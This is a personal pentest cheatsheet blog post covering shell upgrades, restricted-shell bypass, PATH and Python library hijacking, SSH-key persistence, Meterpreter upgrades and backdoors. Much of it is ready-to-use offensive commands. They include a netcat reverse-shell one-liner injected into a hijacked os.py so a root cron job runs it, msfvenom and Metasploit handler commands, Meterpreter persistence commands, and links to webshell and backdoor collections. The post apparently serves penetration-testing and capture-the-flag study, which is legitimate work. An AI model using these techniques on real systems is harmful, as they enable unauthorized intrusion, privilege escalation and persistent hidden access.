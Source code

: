 ```yaml
---
title: "Pentest Cheatsheet"
description: "Some techniques that could be useful during a pentest, such as TTY Reverse Shell, bypassing restricted shells, path and library hijacking..."
date: 2019-10-11T14:22:41+02:00
lastmod: 2020-08-06T00:50:52+02:00
author: "Pablo Jesús González Rubio"
cover: ""
coverAlt: ""
toc: true
tags: [ "Cheatsheet" ]
---
```


This post is more like some techniques that could be useful rather than a guide to solve the methodology, which could be seen a bit [here](/posts/port_cheatsheet).

## TTY Reverse Shell

Having an interactive shell is pretty important as our connection won't hang up when doing Ctrl + C (because it doesn't handle pretty well the SIGINT signal), allows us to autocomplete the commands and the routes, STDERR is displayed, we have command history...

To upgrade it:

```bash
# IN REMOTE COMPUTER
python -c 'import pty; pty.spawn("/bin/bash");'
# Or
python3 -c 'import pty; pty.spawn("/bin/bash");'
# Ctrl + Z
#   This is to put the terminal in foreground
```

```bash
# IN OUR COMPUTER
stty raw -echo # This allows passing through STDIN and STDOUT to the other terminal
fg # We recover the Reverse Shell session
```

```bash
# IN REMOTE COMPUTER
reset
# If it asks for terminal type use: xterm-256terminal
export TERMINAL=bash
export TERM=xterm-256color
```

And that's how you get TTY. 

## Bypassing restricted shells via SSH:

A way to bypass the restricted shell is:

```bash
ssh <user>@<IP> bash
```

Invoking command `bash` via ssh gives us a 'reverse shell'.


## Path Hijacking

Sometimes when a file is executed as part of a routine (in a cron, a systemd, a daemon…) it might not run with the absolute path but with a relative one.

```
# Absolute Path
/bin/bash

# Relative Path
bash
```

Relative Path commands can be altered in such a way that we can modify the PATH variable to make the OS search `bash` command in our directory first (PATH is read in order from left to right). This way you can make that routine execute *your* command instead of the original one.

```
# PATH example
/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/snap/bin
```

This can be done with:

```
export PATH=$(pwd):$PATH
```

***For example***: In a server, in case there is a cron running `fdisk` as `root`, if you create a file called `fdisk` with a reverse shell (could be another thing), it will connect to you and get it with `root` access, as the script is being run by it.

## Python modules Hijacking

This involves modifying or replacing a library that a Python script requires so that it executes our code.

Let's say I have this script that is owned by another user:

```
#!/usr/bin/python

import os

print("Hello my friend!")
```

If somehow this script is running in a cronjob, we can trick it to execute our code as that other user.

**How?**

Taking into account this script is running by `python` and not `python3` we need to search for `/usr/lib/python2.7/os.py`.

We can alter the behaviour of the script by:

- ***Modifying the `os` library***: If we have to write access over the file we can just simply put our code at the end.
- ***Replacing the `os` library***: We may not have write access over the file but over the folder. In that case, we just have to create a `test.py`, put our code at the end, and then replace the library:

```bash
mv test.py os.py
```

The code we can put at the end of the `os` library to execute another code could be:

```py
import os
# HERE THE CODE
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.9 4444 >/tmp/f")
```

Then when the script is ran by the cronjob, we would have a reverse shell!

An example of privilege escalation with this method is [Friendzone HTB machine](/writeups/htb/friendzone).

## How to not loose a shell

**If SSH is available** we can copy our public key (usually in `~/.ssh/id_rsa.pub`) to the server, more specifically to `~/.ssh/authorized_keys`, doing so will let us SSH without the need of inputting a password or needing the private key.

To generate the keys in case we don't have them, we run `ssh-keygen` and it will create them automatically.

## Reverse Shell to Meterpreter

### 1º Way
We can upgrade a rev. shell to meterpreter uploading a msf meterpreter shell and running it:

```bash
msfvenom -p <PAYLOAD> RHOST=<IP> LPORT=<PORT> -f <FORMAT> > <FILE>.<EXTENSION>
```

A good reference for msfvenom use is [this page](https://github.com/frizb/MSF-Venom-Cheatsheet).

Then we can upload it via an upload page the machine could have, curl, wget, netcat, scp, ftp, powershell... It's up to you.

When we've uploaded it, it's time to run it and listen on the port to get the meterpreter:

```bash
# ON MSFCONSOLE
use exploit/multi/handler
set LHOST <LISTENING IP>
set LPORT <LISTENING PORT>
set payload <PAYLOAD USED IN MSFVENOM>
run
```

And that should get us the met. shell. 

### 2º Way

We can upload a another reverse but this time with payload *'cmd'*. When we get the connection with the *cmd* reverse shell:

```bash
#Putting the session on the background
background
#Upgrading cmd to meterpreter
sessions -u <ACTUAL CMD SESSION>
#After that, it should upgrade and get back to let us select between cmd or met.
#So we list the sessions to not fail.
sessions -l
#We select the one with description: meterpreter
sessions -i <MET. SESSION>
```

And there we are again!

## Meterpreter on SSH

When having user and password it's possible to manage ssh and upload files when wget or curl (for example) are restricted via a Metasploit Module or even with `scp` command:

```bash
# Login in msf
msfconsole
# Use the module
use auxiliary/scanner/ssh/ssh_login
# Set parameters
set rhosts <remote ip>
set username <user>
set password <pass>
# 💥
run

# After creating session, upgrade it!
sessions -u <session>
```

## Backdoor

A backdoor is a remote persistant connection, what it means is that we can connect to the machine even when we disconnect or the pc reboots, it'll' always be waiting for a connection or throwing it to us. There are service backdoors, web shells...

- [Pupy](https://miloserdov.org/?p=2874).
- [Tennc - Webshells](https://github.com/tennc/webshell)
- [xl7dev - Webshells](https://github.com/xl7dev/WebShell)
- [Bartblaze - PHP](https://github.com/bartblaze/PHP-backdoors)
- [Mattiasgeniar - PHP](https://github.com/mattiasgeniar/php-exploit-scripts)
- *Meterpreter*: In Windows we can migrate the meterpreter to another process and then make it persistent by installing a service:

```bash
# IN METERPRETER
ps
# WE TAKE THE PID OF EXPLORER.EXE (WINDOWS)
migrate <PID>
run metsvc
```

Or we can run:

```bash
# IN METERPRETER
run persistance -A -L c:\\ -X SECS -p <OPEN PORT> -r <LHOST>
# Checks connection every SECS seconds
```

And now we have a service listening on us.

### Backdoor Resources:

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md)
